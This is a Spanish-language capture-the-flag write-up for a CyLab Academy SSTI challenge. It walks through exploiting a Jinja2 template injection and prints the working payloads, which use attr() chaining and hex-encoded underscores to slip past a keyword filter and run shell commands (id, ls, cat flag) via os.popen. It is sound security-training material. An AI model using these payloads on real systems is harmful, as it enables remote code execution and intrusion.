










# SSTI2

## Resolución
Para comenzar el reto, creamos una nueva instancia del mismo, desde la página de [CyLab](https://learn.cylabacademy.org/library/488).


Una vez creada la instancia nos dirigimos a la página del reto, que nos invita a realizar un anuncio.


Si ingresamos nuestro anuncio, la página lo muestra.


Teniendo en cuenta el nombre del reto, y las pistas dadas, comenzamos sin más a probar payloads. Varios de estos payload fueron tomados de esta [lista](https://github.com/payload-box/ssti-advanced-payload-list/blob/main/Intruder/jinja2-flask.txt)




Como podemos ver el motor de plantillas no está escapando correctamente nuestra entrada.

Si probamos el payload `{{ config }}`, vemos la configuración de la aplicación y además podemos asumir que el templating engine se trata de `jinja`.



Si seguimos probando, eventualmente la página interceptará el anuncio, y mostrará un mensaje específico en cambio.



Si nos remontamos a la segunda pista, podemos considerar que la página busca ciertos patrones/caracteres en el anuncio y lo filtra si es necesario.

Si intentamos usar el payload `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`, que permite ejecutar un comando (`id` en este caso), obtenemos el mensaje "Stop trying to break me".

Si lo escribirmos sin usar la notacion de punto obtenemos el siguiente payload: `{{request|attr("application")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("id")|attr("read")()}}`, que desafortunadamente sigue sin funcionar.

Si probamos el anterior payload, remplazando los guines bajos por su codificacion hexadecimal (0x5f): `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`, finalmente el payload funciona y logramos ejecutar el comando `id` correctamente.



Ahora ejecutamos el mismo payload, pero cambiamos el comando `id` por `ls`, para listar los archivos en el servidor.
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```



Como podemos ver, entre los archivos del servidor encontramos un archivo de texto `flag`, para leerlo ejecutamos el comando `cat flag`.

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```




Finalmente obteniendo la flag del reto: `academy{sst1_f1lt3r_byp4ss_7d09ff8d}`

## Script
El [script](./main.py) realiza una request con el payload mencionado y obtiene la flag.
